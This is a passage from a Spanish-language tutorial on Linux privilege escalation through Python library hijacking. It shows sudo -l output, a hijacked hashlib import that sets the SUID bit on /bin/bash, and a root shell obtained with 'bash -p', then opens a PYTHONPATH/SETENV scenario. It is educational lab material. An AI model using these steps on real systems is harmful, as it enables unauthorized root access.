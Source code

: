 Seguimos manteniendo el privilegio de **SUDO** asignado:

```bash
pepito@parrot:~$ sudo -l
Matching Defaults entries for pepito on parrot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User pepito may run the following commands on parrot:
    (ALL) NOPASSWD: /usr/bin/python3 /home/pepito/checkpassword.py *
```

Ejecutamos el script de Python con **SUDO**, nos mostrará error ya que nuestro módulo no tiene funciones definidas, pero aún así ejecutará el código añadido:

```bash
pepito@parrot:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 feb 24 21:53 /bin/bash

pepito@parrot:~$ sudo /usr/bin/python3 /home/pepito/checkpassword.py 1234
Traceback (most recent call last):
  File "/home/pepito/checkpassword.py", line 21, in <module>
    print(checkpassword(sys.argv[1], provided_hash))
  File "/home/pepito/checkpassword.py", line 10, in checkpassword
    hash = hashlib.sha256(password.encode()).hexdigest()
AttributeError: module 'hashlib' has no attribute 'sha256'

pepito@parrot:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 feb 24 21:53 /bin/bash
```

Podemos ver como antes de la ejecución, el binario **/bin/bash** no tiene permiso **SUID** asginado.

Al finalizar la ejecución se ha interpretado el código que hemos añadido al binario **_hashlib.py_** y acto seguido el binario **/bin/bash** ya tiene asginado el permiso **SUID**, permitiéndonos obtener shell como **root:**

```bash
pepito@parrot:~$ bash -p 
bash-5.1# whoami
root
```

### Escenario 3 - Redirección con variable de entorno PYTHONPATH

En este escenario, vamos explotar el uso de la variable de entorno **PYTHONPATH**. Esta variable contiene una lista de directorios donde Python buscará los diferentes módulos importados en el script. Si un atacante puede cambiar o modificar esta variable, entonces puede usarla para realizar la escalada de privilegios en la máquina donde se encuentre.

Para este escenario, se han modificado los permisos de **SUDO** para poder setear la variable **PYTHONPATH** en la ejecución del script:

```bash
pepito@parrot:~$ sudo -l
Matching Defaults entries for pepito on parrot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User pepito may run the following commands on parrot:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/pepito/checkpassword.py *
```
